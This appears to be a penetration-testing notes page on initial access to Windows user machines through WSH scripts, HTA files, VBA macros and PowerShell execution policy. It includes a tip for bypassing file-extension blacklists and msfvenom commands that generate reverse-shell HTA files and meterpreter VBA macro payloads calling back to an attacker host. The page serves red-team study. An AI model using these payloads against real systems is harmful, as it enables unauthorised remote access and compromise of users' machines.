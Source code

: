```yaml
---
title: Windows machine (user-OS) initial access
---
```


## Windows Scripting Host (WSH)

WSH is language-independent technology to run scripts written in Active Scripting languages. It's old and available on every Windows machine by default. Users can install different scripting engines to support different scripting languages (e.g. PerlScript, RubyScript).

Engines to run JScript (`.js` file) and VBScript (`.vbs` file) are installed by default. Administrator can also use `.wsf` file (_Windows Scripting File_) in order to mix different scripting languages in one scripting file. Windows OS runs scripts with the same level of access and permission as a regular user.

> **TRICK**: VBScript file might be renamed to `example.txt` and executed using the following command: `wscript /e:VBScript <path-to-script>`. This trick can bypass file extension blacklists.

```powershell
# Console application
cscript <path-to-console-script>

# Window application
wscript <path-to-window-script>
```

## HTML Application (HTA)

HTA is a Windows program whose source code consists of HTML, CSS and one or more scripting languages supported by WSH - JScript and VBScript. Actually it works like a Windows program with GUI written in HTML and logic written in scripting language. Because it's executed locally, it's often used as a GUI for administration tools. The usual HTA file extension is `.hta`.

HTAs are interpreted by mshta.exe (LOLBin) after double clicking. Under the hood it is rendered by Internet Explorer (officially: _Trident_ engine, called _MSHTML_ as well) browser engine even if IE is not installed in the OS (still works in Windows 11).

HTAs files often can be executed immediately after download. Because of that they are used to establish reverse shell by attackers. `msvenom` and `msfconsole` have a generators of HTA rev-shell files.

```bash
# Generate malicious HTA file
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f hta-psh -o rev-shell.hta
```

## Visual Basic for Application (VBA)

VBA is almost the same as Visual Basic but its main purpose is to automate tasks in Microsoft Office applications (Word, Excel, PowerPoint, Outlook etc.). It cannot work independently. Macros are written in VBA. They can be combined with HTA and WSH methods to bypass more detection softwares.

```bash
# Generate malicious VBA macro payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f vba
```

## Powershell script

PS execution policy is by default set to `Restriced`. It means that user can execute single commands but not to run any PS script (`.ps1` file).

```powershell
# Check current execution policy
Get-ExecutionPolicy

# Change current execution policy
Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
```
